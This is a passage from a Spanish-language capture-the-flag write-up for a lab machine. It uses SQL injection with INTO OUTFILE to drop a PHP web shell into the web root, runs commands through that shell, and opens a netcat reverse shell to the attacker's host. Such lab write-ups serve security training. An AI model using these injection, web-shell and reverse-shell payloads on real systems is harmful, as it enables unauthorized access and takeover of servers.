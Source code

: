 Aqui intentamos crear un fichero prueba.txt que creamos en una de las routas mas communes, y si lanzamos el commando y que navegamos por 

```bash
 http://10.10.10.143/prueba.txt 
```
 vemos el contenido.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,"<?php system('whoami'); ?>",4,5,6,7 into outfile "/var/www/html/prueba.php" -- -
```

Aqui vemos www-data como usuario. Vamos a intentar ganar accesso al systema.

> [ ! ] NOTAS: todo esto se podria hacer de la misma manera desde el panel 
```bash
 phpmyadmin 
```


## Vuln exploit & Gaining Access {-}

### S4vishell desde un SQL Injection {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos la s4vishell.php desde el SQL Injection

    ```bash
    http://10.10.10.143/room.php?cod-1 union select 1,2,"<?php system($_REQUEST['cmd']); ?>",4,5,6,7 into outfile "/var/www/html/s4vishell.php" -- -
    ```

1. Vamos a la pagina 
```bash
 http://10.10.10.143/s4vishell.php 
```

1. Probamos commandos

    ```bash
    http://10.10.10.143/s4vishell.php?cmd=id
    http://10.10.10.143/s4vishell.php?cmd=hostname -I
    http://10.10.10.143/s4vishell.php?cmd=ps -faux
    http://10.10.10.143/s4vishell.php?cmd=which nc
    ```

1. lanzamos una reverse SHELL

    ```bash
    http://10.10.10.143/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.7 443
    ```

Ya hemos ganado accesso al systema.

